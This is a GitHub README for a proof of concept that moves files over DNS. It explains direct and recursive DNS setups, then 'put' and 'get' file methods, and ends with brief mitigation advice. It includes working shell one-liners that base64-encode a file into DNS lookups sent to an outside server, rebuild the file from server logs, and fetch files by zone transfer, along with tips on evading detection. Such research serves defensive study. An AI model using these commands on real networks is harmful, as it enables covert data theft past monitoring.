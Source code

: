 # FToDNS: File Transfer over Domain Name Service
Christopher Neitzert <chris@neitzert.com>

### What:
A proof of concept that utilizes the Domain Name Service protocol, loosely, as it was intended for data delivery and exfiltration across network boundaries.
---

### Why:
This primarily is an intellectual exercise relating to practical information security in a networked environment.

The use of DNS for data exfiltration or VPN has been a hacker trope for the four decades that DNS has existed. 
The recent introduction of [DNS over HTTPS](https://en.wikipedia.org/wiki/DNS_over_HTTPS) takes an already incendiary security issue and douses it with petroleum.

This PoC aims to be a few stray sparks near that issue. 

There have been several impliementations of this concept and this Proof of Concept is not unique. 
Although this implementation is not based on the previous PoCs, several interesting methods will be linked in the [Erratum.txt](https://github.com/neitzert/FToDNS/blob/master/Erratum.txt)

### How it works
This is assuming that any of this works, and a given that there are plenty of better ways to do it. 

There are two types of landscape a DNS server exists in, for the purposes of this PoC we will call them Direct and Recursive.

Additionally, there are two verbs in a basic file transfer; We will call them 'Put File' and 'Get file'.

#### Landscape:
##### Direct Client to Server
![DNS](/images/DNS_Generic.png)
* A typical DNS client queries a DNS server for a host or zone.
* It might traverse a firewall or two as it crosses the internet
* The DNS server responds to the DNS client with an answer or error

---

##### Client to Recursive Server to Authoritative Server
![DNS](/images/DNS_Recursion.png)
* A typical DNS client queries a DNS server for a host or zone.
* Local rules might require the DNS client use a local server.
* The Local Server likely does not have the zone, so it queries the Authoritative Server on behalf of the DNS client.
* The query might traverse a firewall or two as it crosses the internet
* The Authoritative Server responds with an answer or error to the Local Server.
* The Local Server then relays that information to the DNS client.


#### Verbs

#### Put File
![DNS](/images/FToDNS_PutFile.png)
* The user chooses a file and Base64 encodes the file with 56 Byte long lines
	* One consideration is a multiple encoding method to correct for out of order query-server-log issues.
		* ex: 
			* base64 -w56 $FILE | cat -n | base64 -w56 > file_to_be_put
	* Then for each 56 Byte long encoded line generated by encoded data the user simply performs a DNS lookup with that line to their DNS Server.
		* ex: 
			* host -6 -a -W60 $line.io 2001:db8:1:1:1:1:1:1 
		* Detection avoidance considerations should be taken around timing, encoding, destination servers, and host call.
	* Each query is logged by the destination DNS Server and easily extracted by the inverse method of it's encoding.
		* ex: 
			* cat $NAMED_LOGFILE | grep .io | grep cache | cut -f2 -d"("| cut -f1 -d"." | base64 -d > $DESIRED_FILE_OUTPUT


#### Get File
![DNS](/images/FToDNS_GetFile.png)
* The server operator chooses a file that they want to make available globally via DNS.
	* The file is base64 encoded and written into a DNS Zone file and served globally in DNS.
		* ex: 
			* See [ZoneMaker](https://github.com/neitzert/FToDNS/blob/master/ZoneMaker.sh) for details on this process.
	* The user who wishes to get the file then performs a zone transfer and extracts the file by the inverse method of it's encoding.
		* ex:  As shown in [ZoneGet] (https://github.com/neitzert/FToDNS/blob/master/ZoneGet.sh) 
			* host -t axfr $1 $2|grep $3 | sort -n| cut -f2 -d"-"| cut -f1 -d"."|/bin/base64 -d |/bin/base64 -d > $DESIRED_FILE_OUTPUT 



### Proof of Concept Criteria and Requirements
1. PoC Criteria
	1. Proof of concept must be limited to tools built into the OS plus Bind9 for DNS service.
	1. Some sort of TCP-IP network between client & server that permits DNS between Client and Server. 
	1. Proof of concept must be able to, via the DNS protocol, 
		1. Copy a file from a remote server to a local client across a network
		1. Copy a file on a local client to a remote server across a network

1. Client Requirements:
	1. Standard Linux Distribution with standard GNU Core utils
	1. Host(1) ISC's standard host utility.  
	1. Base64, grep, cut, sed, awk, general sh scripting

1. Server Requirements:
	1. Standard Linux Distribution with standard GNU Core utils
	1. ISC's Bind9 DNS server 
		1. Ability to write zone files
		1. Ability to read log files
		1. Ability to change named.conf to allow zone transfers.
		1. named.conf configuration changes TBD
	1. Base64, grep, cut, sed, awk, general sh scripting


1. Types of Test 
	1. Due to the complexity of the PoC, this will be broken down into multiple types of PoC
		1. - [x]Direct Client to Server
			1. - [x]Read file 
			1. - [x]Write file
		1. - [ ]Client to Recursive to Authoritative
			1. - [ ]Read file
			1. - [ ]Write file
		1. - [ ]Client via DoH to HTTPS/DNS server 
			1. - [ ]Read file
			1. - [ ]Write file



### How to Mitigate:
This specific Proof of Concept creates several issues with its issuance and this document would not be complete without a short discussion on mitigation.

1. Network
	1. Limit Talkers
	1. Record DNS 'meta data'
	1. 
	
1. DNS Server Architecture
	1. Restrict zone transfers 
	1. Disable recursive checks and retrievals.	
	
1. Fuzz
	1. Timing and Frequency
	1. Query length
	1. Text Encoding
	1. 



## File Descriptions:

### Resolver.sh

A simple script to encode a file into a very large number of DNS host look up queries for later collection and reassembly on the upstream DNS server 


### ZoneGet.sh

Simple script to query a DNS server and decode the output of an entire DNS zone where each CNAME entry in the zone is a line fragment of a double base64 encoded file created by the script ZoneMaker.sh. 


### ZoneMaker.sh

Simple script to take a file and base64 encode it, write it into a DNS zone file for remote serving on a Bind9 DNS server.



 
## Disclaimers 
All standard disclaimers apply, no warranty, claims, or promises declared, made or implied.

For educational, research, and entertainment purposes only. 

Usability expires while you wait.

